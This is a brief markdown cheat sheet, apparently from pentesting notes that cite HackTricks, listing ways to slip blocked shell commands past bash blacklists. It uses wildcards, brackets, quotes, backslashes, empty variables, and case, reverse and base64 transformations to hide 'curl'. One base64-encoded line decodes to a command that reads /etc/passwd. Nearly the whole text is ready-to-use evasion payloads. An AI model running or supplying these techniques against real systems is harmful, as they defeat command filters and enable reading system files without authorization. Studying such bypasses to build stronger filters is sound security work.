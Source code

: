 Refer to : [bypass-bash-restrictions_HackTricks](https://book.hacktricks.xyz/linux-hardening/bypass-bash-restrictions)

## Blacklist command Bypass
- Question mark
```
/usr/bin/cur?
```

- Wildcard(*)

```
/usr/bin/c*rl 
```

- [chars] 

```
/usr/bin/cur[l]
```

- Quotes

```
'c'u'r'l
cu''r''''l      #'x2
```

- Backslashes

```
\c\u\r\l
```

- $@

```
cur$@l
```

- variables

```
c$(u)ur${u}l$u
```

- Transformations (case, reverse, base64)

```
$(tr "[A-Z]" "[a-z]"<<<"CuRl") # -> Upper case to lower case
$(a="CuRL";printf %s "${a,,}") # -> transformation (only bash)
$(rev<<<'lruc') 
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==) #base64
```
